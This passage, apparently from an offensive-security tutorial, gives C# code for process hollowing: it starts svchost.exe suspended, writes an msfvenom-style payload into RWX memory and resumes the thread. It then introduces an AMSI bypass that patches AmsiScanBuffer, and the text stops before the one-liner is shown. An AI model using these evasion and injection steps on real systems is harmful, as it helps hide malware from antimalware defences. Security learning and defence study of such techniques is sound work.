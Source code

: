 ```csharp
// (P/Invoke signatures for Win32 APIs are required)

// Malicious payload (e.g., from msfvenom)
byte[] payload = new byte[/* ... */];

// Path to a legitimate executable to use as a host
string legitimateApp = "C:\\Windows\\System32\\svchost.exe";

// 1. Create the host process in a suspended state
var startupInfo = new STARTUPINFO();
var processInfo = new PROCESS_INFORMATION();
CreateProcess(legitimateApp, null, IntPtr.Zero, IntPtr.Zero, false, 0x00000004 /* CREATE_SUSPENDED */, IntPtr.Zero, null, ref startupInfo, out processInfo);

// 2. Carve out the memory space of the legitimate process
// This often involves using NtUnmapViewOfSection from ntdll.dll
// (This is an advanced step and requires resolving the function from the DLL)

// 3. Allocate memory for the payload in the host process
IntPtr remoteMemAddr = VirtualAllocEx(processInfo.hProcess, IntPtr.Zero, (uint)payload.Length, 0x3000 /* MEM_COMMIT | MEM_RESERVE */, 0x40 /* PAGE_EXECUTE_READWRITE */);

// 4. Write the payload into the allocated memory
WriteProcessMemory(processInfo.hProcess, remoteMemAddr, payload, (uint)payload.Length, out _);

// 5. Get thread context, update entry point, and set context
// (This involves getting the thread context, modifying the Eax/Rax register to point to remoteMemAddr, and setting the context back)

// 6. Resume the thread to execute the payload
ResumeThread(processInfo.hThread);
```
**Note:** This is a simplified overview. Real-world implementations must handle different processor architectures (x86 vs. x64) and deal with locating the base address of the executable in memory.

---

## Practical Example: Bypassing AMSI in PowerShell

The Antimalware Scan Interface (AMSI) is a generic interface standard that allows applications and services to integrate with any antimalware product present on a machine. PowerShell, VBScript, and .NET assemblies are common users of AMSI. Bypassing it is often a prerequisite for running malicious scripts entirely in memory.

A very common bypass involves patching the `AmsiScanBuffer` function in memory. The goal is to make the function return a "clean" result (`AMSI_RESULT_CLEAN`) before it even has a chance to scan the malicious script.

### PowerShell One-Liner Bypass

This famous one-liner patches the function in the current PowerShell process's memory. It uses reflection to find the `amsi.dll` module and modify the function bytes.
